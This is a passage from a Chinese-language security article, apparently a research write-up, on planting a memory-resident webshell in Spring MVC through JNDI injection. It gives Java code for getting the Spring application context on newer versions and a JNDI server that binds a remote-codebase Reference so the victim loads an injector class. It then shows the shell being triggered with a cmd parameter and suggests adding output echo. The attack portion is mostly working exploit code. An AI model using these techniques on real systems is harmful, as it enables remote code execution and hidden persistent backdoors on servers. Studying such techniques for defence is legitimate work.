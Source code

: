 ```
            return true;
        `}`
    `}`
`}`
```

注意其中的这部分代码在高版本SpringMVC中会遇到错误，导致无法注册Interceptor。由于时间关系，笔者并未尝试寻找替代类，有兴趣的师傅可以寻找合适的高版本利用方式

```
context.getBean("org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping");
```

提供landgrey师傅文章中获取context的几种方式，测试高版本SpringMVC可用的如下

```
WebApplicationContext context = WebApplicationContextUtils.getWebApplicationContext(RequestContextUtils.getWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest()).getServletContext());

WebApplicationContext context = RequestContextUtils.getWebApplicationContext(((ServletRequestAttributes)RequestContextHolder.currentRequestAttributes()).getRequest());

// 本文的方式
WebApplicationContext context = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
```

说了这么多，还没进行内存马的利用，改下JNDI Server

```
public class JNDIServer `{`
    public static void main(String[] args) throws RemoteException, NamingException, AlreadyBoundException `{`
        Registry registry = LocateRegistry.createRegistry(1099);
        Reference reference = new Reference("InjectToController",
                "com.test.shell.InjectToController", "http://127.0.0.1:8000/");
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(reference);
        registry.bind("Exploit", referenceWrapper);
    `}`
`}`
```

访问`localhost:8080/good?cmd=calc`，成功生成内存马

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t01db950afe244f79de.png)



## 写在后面

关于本文有几处思考：

1.目前的内存马是无回显的，可以修改代码实现回显
